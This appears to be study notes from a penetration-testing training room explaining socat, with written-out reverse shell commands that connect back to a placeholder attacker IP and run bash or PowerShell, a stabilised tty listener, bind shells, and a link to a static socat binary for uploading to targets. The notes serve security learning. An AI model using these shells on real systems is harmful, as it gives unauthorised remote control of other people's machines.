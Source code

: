 
Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

# Useful Commands:

## Reverse Shells

The following command  `socat TCP-L:<port> -` is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`

### Basic Reverse Shell

To run a basic reverse shell listener in socat we use the following command:

```bash
socat TCP-L:<port> -
```

To connect Back from a Linux machine we use:

```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

On Windows we would use this command to connect back:

```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.
### Stabilised Reverse Shell

This will only work when the target is Linux, but is _significantly_ more stable reverse shell listener, This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty:

```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```  

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

**The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.**

The special command is as follows:

```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

- **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)  
    
- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- **setsid**, creates the process in a new session
- **sane**, stabilises the terminal, attempting to "normalise" it.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.
## Bind Shells

On a Linux target we would use the following command:

```bash
socat TCP-L:<PORT> EXEC:"bash -li"
```  

On a Windows target we would use this command for our listener:

```bash
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```  

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.  

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```